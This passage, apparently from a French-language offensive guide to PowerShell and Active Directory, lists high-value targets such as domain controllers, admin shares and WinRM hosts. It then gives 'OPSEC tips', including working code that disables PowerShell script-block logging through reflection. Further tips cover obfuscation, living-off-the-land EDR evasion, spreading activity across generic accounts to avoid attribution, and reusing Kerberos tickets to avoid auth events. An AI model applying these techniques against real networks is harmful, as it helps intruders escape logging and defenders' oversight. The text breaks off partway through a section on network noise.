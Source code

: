 ```powershell
# Identification des cibles prioritaires
$HighValueTargets = @()
$HighValueTargets += $DCs.Name  # Contrôleurs de domaine
$HighValueTargets += $AdminShares  # Systèmes avec partages admin accessibles
$HighValueTargets += $WinRMHosts  # Systèmes avec WinRM activé

Write-Output "Cibles prioritaires identifiées: $($HighValueTargets.Count)"
$HighValueTargets | Out-File -FilePath "priority_targets.txt"
```

### 4 • OPSEC Tips

#### 4.1 Utilisation furtive de PowerShell et contournement des détections

PowerShell génère des logs détaillés dans les Event Logs Windows (Event ID 4103, 4104) qui peuvent révéler vos activités. Utilisez des techniques d'obfuscation et de contournement pour minimiser les traces. Évitez les cmdlets PowerShell suspectes et privilégiez les APIs .NET directes quand possible.

```powershell
# Désactivation temporaire du logging PowerShell (nécessite des privilèges)
$GroupPolicySettings = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings','NonPublic,Static')
$GroupPolicySettings.SetValue($null, @{})
```

Utilisez des techniques de "living off the land" en exploitant les outils légitimes présents sur les systèmes Windows. Cette approche réduit la probabilité de détection par les solutions EDR qui se concentrent sur les outils malveillants connus.

#### 4.2 Gestion des sessions et authentification distribuée

Les connexions WinRM et les sessions PowerShell distantes génèrent des événements d'authentification traçables. Utilisez des comptes de service ou des comptes génériques pour distribuer les connexions et éviter l'attribution à un utilisateur spécifique. Limitez la durée des sessions et fermez-les proprement.

```powershell
# Gestion propre des sessions distantes
$Sessions = New-PSSession -ComputerName $Targets -ErrorAction SilentlyContinue
try {
    $Results = Invoke-Command -Session $Sessions -ScriptBlock { Get-Process }
} finally {
    Remove-PSSession $Sessions
}
```

Alternez entre différentes méthodes d'authentification (NTLM, Kerberos) et utilisez des tickets Kerberos existants quand possible pour éviter la génération de nouveaux événements d'authentification.

#### 4.3 Limitation du bruit réseau et timing adaptatif
